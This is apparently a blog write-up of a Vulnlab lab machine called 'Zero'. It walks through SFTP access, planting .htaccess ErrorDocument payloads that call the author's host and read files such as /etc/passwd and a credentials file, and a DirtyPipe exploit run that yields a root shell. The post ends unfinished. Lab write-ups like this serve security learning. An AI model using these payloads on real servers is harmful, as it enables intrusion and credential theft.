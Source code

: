 ```yaml
---
layout: post
title: VL Zero (Machine Insane)
date: 2025-02-18
categories: [Vulnlab, Machine]
tags: [Vulnlab, Machine, Apache, .htaccess, SFTP, DirtyPipe]
author: Ethicxz
image: assets/image_start/zero_slide.png
description: VL Machine Zero by Ethicxz
---
```


# Before Starting 
```console
Me > 10.8.2.163
Target > 10.10.88.2
```
# Ports

```console
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41
``` 

## Signup Functions

On the site, there is a "signup function" at ```http://10.10.88.2/signup.php``` which gives us credentials to login in ```sftp``` (like the machien ```Ten```)

We can access to ```sftp``` like that

![alt text](../assets/image_zero/1er.png)

Or like that 

```bash
# sftp zro-063e275e@10.10.88.2

zro-063e275e@10.10.88.2's password:
Connected to 10.10.88.2.
sftp> ls -la
drwxr-xr-x    3 root     root         4096 Feb 18 19:27 .
drwxr-xr-x    3 root     root         4096 Feb 18 19:27 ..
drwxr-xr-x    2 1007     1007         4096 Feb 18 19:27 public_html
```
## Upload file in SFTP

(First of all, i tried to upload some php files etc but it doesn't work)

So there is a directory ```public_html```

```bash
sftp> ls -la
drwxr-xr-x    2 1007     1007         4096 Feb 18 19:27 .
drwxr-xr-x    3 root     root         4096 Feb 18 19:27 ..
-rw-r--r--    1 root     root           49 Feb 18 19:27 .htaccess
-rw-r--r--    1 1007     1007          349 Feb 15  2019 index.html
```
We basically don't care about ```index.html``` but ```.htaccess``` is an interesting file

## Replace/Create .HTACCESS to read a file

I tried many things with [this tool](https://github.com/wireghoul/htshells) but nothing worked.

I then remembered the ```Ten``` machine made by [Jkr](https://x.com/ateamjkr) (knowing that Zero was also made by jkr) and so I went to look at the Apache docs to find how I could make this ```.htaccess``` file interesting

First, I found this https://httpd.apache.org/docs/2.4/custom-error.html

It doesn't seem very useful at first but let's keep this doc in mind

I then did some research on how to make a ```.htaccess file``` "malicious" and I found this doc : [https://blog.sucuri.net/2024/03/what-is-htaccess-malware-detection-symptoms-prevention.html](https://blog.sucuri.net/2024/03/what-is-htaccess-malware-detection-symptoms-prevention.html)

Using this payload :

```console
ErrorDocument 404 http://10.8.2.163/inject/index.php
```
I managed to receive a get on my python server by reaching a non existing file ```GET /~zro-063e275e/test/aaaa HTTP/1.1```

![alt text](../assets/image_zero/2er.png)

```console
NOTE : I created "toto" directory to avoid breaking the "public_html" directory and i gave all rights to the .htaccess file in my toto directory

Knowing that i create the .htaccess file on my attacking machine with root rights, if i do not change the rights, i would not be able to read the file on the website with my user who has a UID of 1006
```
![alt text](../assets/image_zero/3er.png)

But i couldn't get anything conclusive from it, so i tried reading files on the target machine instead

Back to the apache doc [https://httpd.apache.org/docs/current/expr.html#functions](https://httpd.apache.org/docs/current/expr.html#functions)

```file Read contents from a file (including line endings, when present) ```

This function is interesting, so we can change our payload like that 

```console
# ErrorDocument 404 http://10.8.2.163/inject/index.php
ErrorDocument 404 %{file:/etc/passwd}
```
And it works !!

To avoid wasting time I'm not going to say all the files I tried to read but in summary it was enough to read ```/var/www/html/stats.php```

```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Host: zero.vl' -H $'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:135.0) Gecko/20100101 Firefox/135.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate, br' -H $'Connection: keep-alive' -H $'Upgrade-Insecure-Requests: 1' -H $'Priority: u=0, i' \
    $'http://zero.vl/~zro-063e275e/test/aaaa'
```

```"localhost", "zroadmin", "REDACTED"```

Now login with ssh

## Unintended ROOT (quick win)
After some enumerations i found a quick win (dirtypipe)

[https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits)

```bash
zroadmin@ip-10-10-10-13:/tmp$ ./exploit-2 /usr/bin/sudo
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# id
uid=0(root) gid=0(root) groups=0(root),666(zroadmin)
```
But of course I want to try to resolve the box by the intended so I will take this WU again when I have found the intended way

## To finish...

To finish.......
